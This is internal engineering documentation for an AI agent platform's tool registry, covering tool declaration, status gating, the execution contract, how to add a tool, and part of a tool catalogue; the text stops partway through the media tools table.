# 09. Tools & the Tool Registry

> **What this document covers:** every tool an AI entity can call on HireBuddha — how tools are declared, discovered, advertised to the LLM, executed, retried, sandboxed, metered and billed — plus a complete catalogue of all 98 registered tools.
> **Who should read it:** anyone adding a tool, debugging a tool call, reviewing sandbox security, or tracing where a dollar of tool cost came from.
> **Prerequisites:** [05 — Agent kernel](05-agent-kernel.md) for the loop that decides *when* to call a tool, and [03 — Data model](03-data-model.md) for `ExecutionRun` / `HierarchicalEntity`. Helpful but not required: [04 — Auth, RBAC & tenancy](04-auth-rbac-tenancy.md).

---

## Table of contents

1. [The 60-second version](#1-the-60-second-version)
2. [The tool registry](#2-the-tool-registry)
3. [The tool contract](#3-the-tool-contract)
4. [How to add a new tool](#4-how-to-add-a-new-tool)
5. [The complete tool catalogue](#5-the-complete-tool-catalogue)
6. [`core/` — search, scrape, calculate, write](#6-core--search-scrape-calculate-write)
7. [`documents/` — the generation pipeline](#7-documents--the-generation-pipeline)
8. [`email/` — IMAP and SMTP](#8-email--imap-and-smtp)
9. [`media/` — images and video](#9-media--images-and-video)
10. [`social/` — 16 platforms, 64 tools](#10-social--16-platforms-64-tools)
11. [`crm/` — the tenant CRM bridge](#11-crm--the-tenant-crm-bridge)
12. [`sandbox/` — code, terminal, browser and the trust boundary](#12-sandbox--code-terminal-browser-and-the-trust-boundary)
13. [`meta/` — tools that build the platform](#13-meta--tools-that-build-the-platform)
14. [`mcp/` — Model Context Protocol](#14-mcp--model-context-protocol)
15. [`resilience.py` — retries and recovery](#15-resiliencepy--retries-and-recovery)
16. [`tool_fallback.py` — the substitution table](#16-tool_fallbackpy--the-substitution-table)
17. [Tool budgets and rate limits](#17-tool-budgets-and-rate-limits)
18. [Tool costing and billing](#18-tool-costing-and-billing)
19. [The tool management API and UI](#19-the-tool-management-api-and-ui)
20. [Security review](#20-security-review)
21. [Key files reference](#21-key-files-reference)
22. [Gotchas and things that surprise newcomers](#22-gotchas-and-things-that-surprise-newcomers)
23. [Where to go next](#23-where-to-go-next)

---

## 1. The 60-second version

Anything an agent does that is not "think" is a **tool**. A tool is a Python
class that subclasses `Tool` in
[tools/base.py](../../backend/src/ai/tools/base.py), declares a `name`, a
`description`, and a JSON schema, and implements one async method that takes a
string and returns a string.

All 98 built-in tools register themselves into one in-memory dictionary at
import time in [tools/\_\_init\_\_.py](../../backend/src/ai/tools/__init__.py).
Nothing is dynamically loaded from disk or from the database at runtime.

When a step runs, the step executor collects the entity's declared tool ids,
asks the registry for their JSON schemas, and hands those schemas to the LLM as
native function declarations. The LLM answers with a function call. The
`ToolExecutor` looks the tool up by name, executes it, times it, wraps the
outcome in a typed `ToolResult`, logs a `tool_interaction_logs` row, and charges
the run.



Four things a newcomer should internalise straight away:

1. **The registry is a process-local dict.** `ToolRegistry._tools` is a class
   attribute. Every worker process has its own copy, built at import time.
2. **The database table `tool_registry_entries` is metadata, not code.** You
   can create a "custom tool" through the admin API, but nothing ever turns that
   row into an executable object. See §19.
3. **The tool interface is stringly typed.** The LLM's structured arguments get
   serialised to a JSON string, and most tools parse that string themselves.
   A large fraction of tool code is defensive JSON parsing.
4. **Tools reach the outside world directly.** Search, scraping, email, social
   posting and sandboxed shell all make network calls or spend money from inside
   the tool. Read §20 before you add one.

---

## 2. The tool registry

### 2.1 The in-code registry

There is exactly one registry class,
[ToolRegistry](../../backend/src/ai/tools/base.py:149), and it holds two
dictionaries:

```python
# backend/src/ai/tools/base.py
class ToolRegistry:
    _tools: Dict[str, Tool] = {}
    _tenant_tools: Dict[str, Dict[str, Tool]] = {}  # company_id -> {name: Tool}

    @classmethod
    def register(cls, tool: Tool) -> None:
        cls._tools[tool.name] = tool

    @classmethod
    def get_tool(cls, name: str, company_id: Optional[UUID] = None) -> Optional[Tool]:
        """Get a tool by name. Tenant tools take priority over global."""
        if company_id:
            tenant = cls._tenant_tools.get(str(company_id), {})
            if name in tenant:
                return tenant[name]
        return cls._tools.get(name)
```

Registration happens as an import side effect. Importing
`src.ai.tools` runs 98 `ToolRegistry.register(SomeTool())` statements
([tools/\_\_init\_\_.py:42](../../backend/src/ai/tools/__init__.py:42) onwards).
Because they are module-level singletons, **a tool instance is shared across all
tenants and all concurrent runs in a worker** — never store per-call state on
`self`.

Tenant-scoped tools exist but only two code paths create them:

| Caller | What it registers |
|--------|-------------------|
| [mcp/adapter.py:165](../../backend/src/ai/tools/mcp/adapter.py:165) | one `MCPToolAdapter` per permitted MCP server tool |
| [meta/tool_synthesis_pipeline.py:95](../../backend/src/ai/meta/tool_synthesis_pipeline.py:95) | a `SandboxedSynthesizedTool` for a freshly synthesized DRAFT tool |

Both are in-process only. Restart the worker and the tenant tools are gone
until something re-binds them.

### 2.2 Tool status values

`ToolStatus` is a four-value enum in
[base.py:22](../../backend/src/ai/tools/base.py:22). The package README still
says three — that is stale; `DRAFT` was added later.

| Status | Meaning | Visible by default? |
|--------|---------|---------------------|
| `ACTIVE` | Verified, generally available. The implicit default on `Tool`. | Yes |
| `EXPERIMENTAL` | Registered globally but unverified. | No — needs `tools.experimental.{tool_id}` per company |
| `DEPRECATED` | Kept for backward compatibility, slated for removal. | No — unless `include_deprecated=True` (admin path) |
| `DRAFT` | Freshly LLM-synthesized. Never registered globally, tenant-only, `trust=low`. | No — needs the same opt-in flag |



Who carries which status today:

| Status | Tools |
|--------|-------|
| `EXPERIMENTAL` | all 64 `social/` tools (set on the `SocialMediaTool` base class), `video_generate`, `video_edit`, `video_add_sound`, `tool_synthesis`, every `MCPToolAdapter` |
| `DEPRECATED` | `video_generation` only |
| `DRAFT` | `SandboxedSynthesizedTool` instances |
| `ACTIVE` | everything else — all of `core/`, `documents/`, `email/`, `crm/`, `sandbox/`, `image_generation`, and the meta tools other than `tool_synthesis` |

### 2.3 Visibility gating

[`ToolRegistry.get_visible_tools_for_company`](../../backend/src/ai/tools/base.py:192)
is the intended gate. It merges global plus tenant tools, drops `DEPRECATED`,
and requires a per-company feature flag for `EXPERIMENTAL` and `DRAFT`:

```python
# backend/src/ai/tools/base.py
if status in (ToolStatus.EXPERIMENTAL, ToolStatus.DRAFT):
    enabled = await flags.is_on(f"tools.experimental.{name}", company_id=company_id)
    if not enabled:
        event("agent.tool.status_filtered", tool_id=name,
              company_id=str(company_id), reason="experimental_opt_in_required")
        continue
```



**Verified drift — this gate is not wired into execution.** Grepping the
backend, `get_visible_tools_for_company` is referenced only by
[tests/unit/test_tool_status.py](../../backend/tests/unit/test_tool_status.py)
and by a comment in `social/base.py`. The live path in
[step_executor.py:722](../../backend/src/ai/step_executor.py:722) builds tool
schemas straight from the entity's declared `capabilities.tools` and
`ToolExecutor.get_tool_schemas`, which calls `ToolRegistry.get_all_schemas()`
with **no** company id:

```python
# backend/src/ai/step_executor.py
tool_ids = [t.get("tool_id") for t in autonomous_tools]
...
tool_schemas = ToolExecutor.get_tool_schemas(tool_ids)
```

Practically: if an entity's `capabilities.tools` lists `linkedin_create_post`,
that EXPERIMENTAL tool is advertised to the LLM and executable regardless of
the `tools.experimental.linkedin_create_post` flag. The entity definition, not
the status enum, is the effective access control today. The flag flip endpoint
exists at
[api/admin.py:479](../../backend/src/ai/api/admin.py:479) and writes real rows,
so wiring the gate in is a small change — but it has not happened yet.

### 2.4 The `tool_registry_entries` table

[orm/tools.py](../../backend/src/ai/orm/tools.py) defines the persistent side.
It is a **metadata mirror**, seeded from the in-code registry.



| Column | Notes |
|--------|-------|
| `name` | globally unique, must match `Tool.name` for built-ins |
| `tool_type` | the ORM comment says `BUILT_IN \| CUSTOM`, but the synthesis pipeline writes a third value, `SYNTHESIZED` ([tool_synthesis_pipeline.py:80](../../backend/src/ai/meta/tool_synthesis_pipeline.py:80)) |
| `is_enabled` | honoured by the frontend picker only, **not** by the executor (see §19) |
| `configuration` | free-form JSON; for synthesized tools it carries `status`, `trust`, `network_policy`, the generated `source`, and the full audit trail |
| `company_id` | `NULL` means system-wide; `sync_built_in_tools()` leaves it `NULL` |

Rows appear in three ways: `POST /api/v1/ai/tool-registry/sync-built-in` (seeds
one row per registered tool), `POST /api/v1/ai/tool-registry` (an admin creating
a CUSTOM entry), and the tool-synthesis pipeline (a DRAFT `SYNTHESIZED` entry).

---

## 3. The tool contract

### 3.1 The base class

Everything lives in [tools/base.py](../../backend/src/ai/tools/base.py). There
is no decorator and no protocol — a tool is a subclass.

```python
# backend/src/ai/tools/base.py
class Tool(ABC):
    name: str
    description: str
    status: ToolStatus = ToolStatus.ACTIVE

    @abstractmethod
    async def run(self, input_data: str) -> str: ...

    async def run_with_context(self, input_data: str,
                               context: Optional[Dict[str, Any]] = None) -> str:
        """Override when the tool needs company_id / user_id / run_id."""
        return await self.run(input_data)

    async def run_typed(self, params: ToolParams) -> ToolResult:
        """Phase 6 typed interface. Default wraps run()."""
        ...

    def get_function_schema(self) -> Dict[str, Any]:
        """Override to advertise real parameters to the LLM."""
        ...
```

Three execution entry points exist, in increasing order of capability:

| Method | Signature | Who overrides it |
|--------|-----------|------------------|
| `run` | `(input_data: str) -> str` | mandatory; often just delegates to `run_with_context` |
| `run_with_context` | `(input_data: str, context: dict) -> str` | ~85 of the 98 tools — anything needing `company_id`, `user_id`, `run_id`, `agent_id` |
| `run_typed` | `(params: ToolParams) -> ToolResult` | only `web_search` and `scraper_tool` today |

`supports_context()` returns whether the subclass overrode `run_with_context`,
by comparing the bound function to the base one.

### 3.2 The `context` dict

The step executor injects the same four keys on every call
([step_executor.py:296](../../backend/src/ai/step_executor.py:296)):

```python
extra_context = {
    "company_id": str(run.company_id),
    "user_id":    str(run.user_id) if run.user_id else "default",
    "run_id":     str(run.id),
    "agent_id":   str(entity.id) if entity is not None else None,
}
```

In the REACT path the whole filtered step context is merged in as well, so a
tool may see arbitrary extra keys. Meta tools additionally look for
`__is_meta_agent__` and `__entity_name__`.

### 3.3 The JSON schema a tool advertises

`get_function_schema()` returns a provider-agnostic OpenAI-style function
declaration. `LLMRouter` adapters translate it per provider (Gemini, Anthropic,
Azure). The base implementation is a single free-text `input` string, which is
what `tool_synthesis`, `meta_spec_critic` and `SandboxedSynthesizedTool` still
use. Every other tool overrides it. `web_search` is the canonical shape:

```python
# backend/src/ai/tools/core/search.py
def get_function_schema(self) -> Dict[str, Any]:
    return {
        "name": self.name,
        "description": self.description,
        "parameters": {
            "type": "object",
            "properties": {
                "query": {
                    "type": "string",
                    "description": "The search query to look up on the web"
                }
            },
            "required": ["query"]
        }
    }
```

### 3.4 The result shape

There are **two** `ToolResult` classes and they are not the same thing:

| Class | File | Used by |
|-------|------|---------|
| `ToolResult` (Pydantic) | [tools/base.py:48](../../backend/src/ai/tools/base.py:48) | return value of `run_typed()` — fields `success`, `output`, `error_code`, `error_message`, `metadata` |
| `ToolResult` (dataclass) | [tool_executor.py:39](../../backend/src/ai/tool_executor.py:39) | the canonical executor return — fields `tool`, `args`, `output`, `success`, `latency_ms`, `error`, `skipped`, `skip_reason`, `timestamp` |

The executor's dataclass is what the rest of the platform sees:

```python
# backend/src/ai/tool_executor.py
@dataclass
class ToolResult:
    tool: str
    args: Dict[str, Any]
    output: Any
    success: bool
    latency_ms: int = 0
    error: Optional[str] = None    # Set when success=False
    skipped: bool = False          # Set when rate limit exceeded
    skip_reason: Optional[str] = None
    timestamp: str = field(default_factory=lambda: datetime.now(timezone.utc).isoformat())
```

Note there is **no enforced schema on `output`**. Most tools return a JSON
string; `calculator` and `web_search` return plain prose; `terminal` returns
JSON with `exit_code`/`stdout`/`stderr`. The LLM has to cope.

### 3.5 Dispatch: typed path vs legacy path



The typed path is chosen by reflection
([tool_executor.py:125](../../backend/src/ai/tool_executor.py:125)): if
`type(tool).run_typed is not Tool.run_typed`, the executor reads
`get_type_hints(tool.run_typed)`, finds the `params` annotation, and constructs
that Pydantic model from `tool_args` (minus `company_id` / `user_id`). If
anything in that reflection fails it silently logs at DEBUG and falls through to
the legacy string path — which is why a broken typed signature is easy to miss.

### 3.6 A minimal complete tool

This is a real, complete tool implementation — `calculator`, trimmed:

```python
# backend/src/ai/tools/core/calculator.py
from src.ai.tools.base import Tool

class CalculatorTool(Tool):
    name = "calculator"
    description = (
        "Performs mathematical calculations safely. "
        "Input should be a mathematical expression like '2 + 2' or '(10 * 5) / 2'. "
        "Supports: +, -, *, /, //, %, ** (power), and parentheses."
    )

    async def run(self, input_data: str) -> str:
        try:
            expression = input_data.strip()
            if not expression:
                return "Error: Empty expression"
            tree = ast.parse(expression, mode='eval')   # never eval()
            result = self._safe_eval(tree)
            if isinstance(result, float) and result.is_integer():
                return str(int(result))
            return str(result)
        except SyntaxError as e:
            return f"Error: Invalid expression syntax - {str(e)}"
        except ValueError as e:
            return f"Error: {str(e)}"

    def get_function_schema(self):
        return {
            "name": self.name,
            "description": self.description,
            "parameters": {
                "type": "object",
                "properties": {
                    "expression": {"type": "string",
                                   "description": "Mathematical expression to evaluate"}
                },
                "required": ["expression"],
            },
        }
```

Note the conventions it follows, which every tool in this codebase shares:

- **Never raise.** Return an error *string* starting with `Error:`. The
  resilience layer classifies on that prefix (§15).
- **Description is a prompt.** It is the only thing the LLM reads to decide
  whether to call you. Spell out the input format inside it.
- **The schema's parameter names do not have to match the code.** The schema
  says `expression`; the legacy path serialises `{"expression": "2+2"}` to JSON
  and `run()` receives that JSON string, not the bare expression. `calculator`
  survives this only because `ast.parse` on `{"expression": "2+2"}` fails and
  returns a syntax error — in the REACT path the LLM usually retries with a bare
  string. This mismatch is a real class of bug; see §22.

---

## 4. How to add a new tool



Step by step:

1. **Choose the subpackage.** `backend/src/ai/tools/<subdomain>/`. Only
   `__init__.py`, `base.py` and `resilience.py` live at the `tools/` root.

2. **Write the class.**

   ```python
   # backend/src/ai/tools/core/my_tool.py
   import json
   from typing import Any, Dict, Optional
   from src.ai.tools.base import Tool, ToolStatus

   class MyTool(Tool):
       name = "my_tool"                      # snake_case, this IS the LLM-facing id
       status = ToolStatus.EXPERIMENTAL      # start here, promote after verification
       description = (
           "One sentence on what it does. "
           "Input: JSON with 'foo' (string) and optional 'bar' (int)."
       )

       async def run(self, input_data: str) -> str:
           return await self.run_with_context(input_data, context=None)

       async def run_with_context(self, input_data: str,
                                  context: Optional[Dict[str, Any]] = None) -> str:
           try:
               params = json.loads(input_data) if isinstance(input_data, str) else input_data
           except (json.JSONDecodeError, TypeError):
               return json.dumps({"error": "Invalid JSON input. Expected {foo, bar}."})
           company_id = (context or {}).get("company_id")
           ...
           return json.dumps({"status": "success", "result": ...})

       def get_function_schema(self) -> Dict[str, Any]:
           return {
               "name": self.name,
               "description": self.description,
               "parameters": {
                   "type": "object",
                   "properties": {
                       "foo": {"type": "string", "description": "..."},
                       "bar": {"type": "integer", "description": "..."},
                   },
                   "required": ["foo"],
               },
           }
   ```

3. **Register it.** In [tools/\_\_init\_\_.py](../../backend/src/ai/tools/__init__.py):
   add the import, add `ToolRegistry.register(MyTool())`, and add the class name
   to `__all__`.

4. **Give it a category.** Add `"my_tool": "utility"` to `_BUILTIN_CATEGORIES`
   in [tool_management_service.py:31](../../backend/src/ai/tool_management_service.py:31),
   otherwise the admin UI files it under `general`.

5. **Give it a price.** If it maps to a paid API, add the SKU to `TOOL_SKU_MAP`
   in [governance/tool_cost_resolver.py:40](../../backend/src/ai/governance/tool_cost_resolver.py:40)
   **and** the duplicate `_TOOL_SKU_MAP` literals in
   [step_executor.py:466](../../backend/src/ai/step_executor.py:466) and
   [step_executor.py:924](../../backend/src/ai/step_executor.py:924) — see §18
   for why there are three copies. Also add a baseline to `TOOL_BASELINE_COST`
   in [planning/cost_estimator.py:22](../../backend/src/ai/planning/cost_estimator.py:22)
   so the planner can price plans that use it.

6. **Optional: a fallback.** If another tool can do roughly the same job, add a
   chain in [tool_fallback.py:26](../../backend/src/ai/tool_fallback.py:26).

7. **Sync to the DB** so admins can see and toggle it:
   `POST /api/v1/ai/tool-registry/sync-built-in`.

8. **Reference it from an entity.** A tool is only reachable if some entity's
   `capabilities.tools` lists `{"tool_id": "my_tool", "usage": "AUTONOMOUS"}`.
   Registration alone does nothing.

---

## 5. The complete tool catalogue

98 tools are registered globally. Below is every one of them. Columns:
**Status** is the `ToolStatus`; **SKU / cost** is what §18 resolves for billing
(`—` means no cost entry exists and the call bills $0).

Legend for external dependency: `—` = pure local compute.

### 5.1 `core/` — 5 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `calculator` | utility | [core/calculator.py](../../backend/src/ai/tools/core/calculator.py) | AST-based safe arithmetic, no `eval` | `expression` | — | ACTIVE | — |
| `web_search` | search | [core/search.py](../../backend/src/ai/tools/core/search.py) | Web search, 3-tier backend | `query` | SerpAPI, then `ddgs` lib, then DuckDuckGo IA API | ACTIVE | `serp-api-key` |
| `batch_web_search` | search | [core/batch_search.py](../../backend/src/ai/tools/core/batch_search.py) | Runs up to 25 queries sequentially, aggregates | `queries[]`, `max_per_query` | same as `web_search` | ACTIVE | `serp-api-key` |
| `scraper_tool` | browser | [core/scraper.py](../../backend/src/ai/tools/core/scraper.py) | Firecrawl page scrape to markdown, saved as an artifact | `url`, `purpose` | Firecrawl API | ACTIVE | `firecrawl-api` / `firecrawl` |
| `file_writer` | document | [core/file_writer.py](../../backend/src/ai/tools/core/file_writer.py) | Writes text to `artifact/system-generated/{company}/{date}/` | `filename`, `content`, `purpose` | local disk | ACTIVE | — |

### 5.2 `documents/` — 5 registered tools plus 1 library

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `pdf_generator` | document | [documents/pdf_generator.py](../../backend/src/ai/tools/documents/pdf_generator.py) | Markdown to styled PDF via WeasyPrint, embeds images | `content`, `title`, `filename`, `author`, `subject`, `image_paths[]` | WeasyPrint, `markdown` | ACTIVE | `pdf-generator` |
| `docx_tool` | document | [documents/docx_tool.py](../../backend/src/ai/tools/documents/docx_tool.py) | create / read / update Word documents | `action`, `filename`, `title`, `sections[]`, `file_path`, `replacements[]` | `python-docx` | ACTIVE | — |
| `pptx_tool` | document | [documents/pptx_tool.py](../../backend/src/ai/tools/documents/pptx_tool.py) | create / read / update PowerPoint decks | `action`, `filename`, `title`, `slides[]`, `file_path` | `python-pptx` | ACTIVE | — |
| `excel_tool` | document | [documents/excel.py](../../backend/src/ai/tools/documents/excel.py) | `read_rows` / `get_columns` / `list_sheets` / `create` / `update` on xlsx and csv | `action`, `file_path`, `headers[]`, `data[][]`, `update_cells[]` | `openpyxl` | ACTIVE | — |
| `document_save` | document | [documents/document_save.py](../../backend/src/ai/tools/documents/document_save.py) | Copies a sandbox-produced file into artifact storage and registers it | `source_path`, `filename`, `format`, `purpose` | local disk | ACTIVE | — |
| *(not a tool)* `XlsxEngine` | — | [documents/xlsx_engine.py](../../backend/src/ai/tools/documents/xlsx_engine.py) | Themed spreadsheet rendering library — 4 themes, KPI cards, native charts | n/a | `openpyxl` | n/a | priced at `$0.01` in the planner only |

### 5.3 `email/` — 4 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `email_ingest` | email | [email/email_tool.py:148](../../backend/src/ai/tools/email/email_tool.py:148) | IMAP fetch of latest N emails, MIME parsed, HTML to markdown | `email_address`, `count`, `unread_only` (no required fields) | IMAP over SSL | ACTIVE | — |
| `email_classify` | email | [email/email_tool.py:267](../../backend/src/ai/tools/email/email_tool.py:267) | Creates `AI-Classified/{category}` folder and moves the message | `uid`, `category`, `source_folder` | IMAP | ACTIVE | — |
| `email_draft` | email | [email/email_tool.py:364](../../backend/src/ai/tools/email/email_tool.py:364) | APPENDs a threaded reply into the Drafts folder | `original_message_id`, `draft_body`, `to`, `subject` | IMAP | ACTIVE | — |
| `email_send` | email | [email/email_tool.py:477](../../backend/src/ai/tools/email/email_tool.py:477) | SMTP send with optional artifact attachment, 18 MB cap | `to`, `subject`, `body`, `cc`, `bcc`, `attachment_artifact_id` | SMTP with STARTTLS | ACTIVE | — |

### 5.4 `media/` — 5 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `image_generation` | media | [media/image_generation.py](../../backend/src/ai/tools/media/image_generation.py) | Imagen / Gemini image generation via Vertex AI; bills itself | `model_name`, `prompt`, `reference_image_path` | Google Vertex AI | ACTIVE | `imagen-4.0-generate-001`, fixed `$0.04` |
| `video_generate` | media | [media/video/video_generate.py](../../backend/src/ai/tools/media/video/video_generate.py) | One Veo 3.1 clip, max 8 s | `model_name`, `prompt`, `length_seconds`, `is_audio_required`, `start_frame_path`, `end_frame_path` | Google Vertex AI Veo | EXPERIMENTAL | fixed `$0.05` |
| `video_edit` | media | [media/video/video_edit.py](../../backend/src/ai/tools/media/video/video_edit.py) | ffmpeg concat / trim / resize / transition / overlay / extend | `operation`, `inputs[]`, `output_path`, op params | ffmpeg via sandbox runtime | EXPERIMENTAL | `sandbox-runtime` seconds |
| `video_add_sound` | media | [media/video/video_add_sound.py](../../backend/src/ai/tools/media/video/video_add_sound.py) | Attach or mix an audio track onto a clip | `video_path`, `source` (file/tts/generated), `mode`, `gain`, `loop`, `fade` | ffmpeg via sandbox runtime | EXPERIMENTAL | `sandbox-runtime` seconds |
